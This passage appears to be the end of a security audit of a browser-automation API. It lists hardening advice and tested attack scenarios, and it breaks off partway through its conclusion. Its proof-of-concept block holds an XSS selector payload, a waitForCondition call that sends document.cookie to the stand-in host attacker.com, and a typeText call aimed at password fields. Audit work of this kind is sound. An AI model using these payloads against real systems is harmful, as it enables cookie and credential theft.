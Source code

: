 1. **Security Logging**
   ```typescript
   interface SecurityEvent {
     timestamp: number;
     eventType: 'blocked_selector' | 'rate_limit' | 'invalid_input';
     details: Record<string, any>;
   }
   ```

2. **Input Validation Layer**
   - Centralize all validation logic
   - Use schema validation consistently
   - Implement allow-lists over deny-lists where possible

3. **Defense in Depth**
   - Multiple validation layers
   - Fail securely (deny by default)
   - Principle of least privilege

## Testing Results Summary

### Attack Scenarios Tested

1. **XSS via CSS Selectors**: VULNERABLE
2. **JavaScript Injection**: VULNERABLE (wait-for-condition)
3. **Sensitive Data Access**: VULNERABLE
4. **Cross-Origin Bypass**: PROTECTED
5. **Rate Limit Bypass**: VULNERABLE (not implemented)
6. **Path Traversal**: NOT APPLICABLE
7. **Command Injection**: NOT APPLICABLE

### Proof of Concept

```javascript
// PoC 1: XSS via selector
await browserApi.clickElement(tabId, '";alert(1);//');

// PoC 2: Arbitrary code execution
await browserApi.waitForCondition(tabId, 
  'fetch("http://attacker.com?cookie=" + document.cookie)', 
  5000
);

// PoC 3: Password theft
await browserApi.typeText(tabId, 'stolen', {
  selector: 'input[type="password"]'
});
```

## Conclusion

While the browser interaction implementation includes many security best practices, several critical vulnerabilities must be addressed before the feature can be considered production-ready. The most severe issues are:
